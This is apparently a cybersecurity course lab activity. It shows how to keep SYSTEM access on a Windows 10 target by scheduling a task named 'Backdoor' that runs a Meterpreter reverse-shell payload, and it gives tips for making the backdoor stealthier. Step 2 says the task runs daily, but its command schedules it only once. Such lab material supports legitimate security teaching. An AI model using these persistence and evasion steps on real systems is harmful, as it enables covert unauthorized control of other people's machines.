


## Activity File: Persistence

Now that we have SYSTEM access over the machine, we will establish persistence on it to ensure our SYSTEM access. This technique will utilize Task Scheduler. We will create a scheduled task that will execute a custom Meterpreter payload.

- You will establish persistence on the Window10 machine by abusing Task Scheduler. 

- This will allow your payload to be executed at a certain defined interval, ensuring you always have a reverse shell to the target.

### Instructions

You will work off your Meterpreter session on the Window10 machine. If you do not have an active session on the WIN10 machine, refer to prior activities to obtain a Meterpreter shell.

1. In your Meterpreter session, drop into a `shell` session.

     - `shell`

2. Create a scheduled task that will execute your payload every day at midnight.  

     - `schtasks /create /f /tn Backdoor /SC ONCE /ST 00:00 /TR "C:\shell.exe"`

	 

3. Test your scheduled task.

     - `schtasks /run /tn Backdoor`

	 

4. How could you improve this technique to make it more stealthy?

     - Better task name

     - Execute a better-named payload

     - Schedule the task only to run on certain events, such as logon

---

© 2022 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

